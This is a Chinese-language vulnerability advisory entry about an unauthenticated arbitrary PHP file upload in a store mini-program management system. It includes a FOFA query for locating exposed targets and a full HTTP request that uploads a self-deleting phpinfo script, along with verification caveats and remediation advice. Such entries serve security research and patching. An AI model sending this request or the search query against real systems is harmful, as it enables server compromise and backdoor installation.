

# 万能门店小程序管理系统 onepic_uploade PHP上传

## 条目说明

- 对象与具体问题：万能门店小程序管理系统；onepic_uploade PHP上传
- 版本、配置及部署条件：版本未知；上传目录PHP解析条件
- 认证与权限前提：无Cookie请求，匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- phpinfo后unlink自身仍涉及落盘/执行且泄露配置，不能因自删称无副作用
- 返回路径与PHP执行结果仅图片，需补响应字段与访问URL文字
- 重复Connection keep-alive/close头，应清理；在野已知无证据
- 与SQLi/读取独立入口，保留关联非硬合并

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

万能门店小程序管理系统 onepic_uploade 存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## 影响版本

万能门店小程序管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/comhome/cases/index.html"

POC/EXP：

```http
POST /comadmin/Remote/onepic_uploade?file=file HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBiKyL9D0p5OtH5zz
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBiKyL9D0p5OtH5zz
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();unlink(__FILE__);?>
------WebKitFormBoundaryBiKyL9D0p5OtH5zz--
```





## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
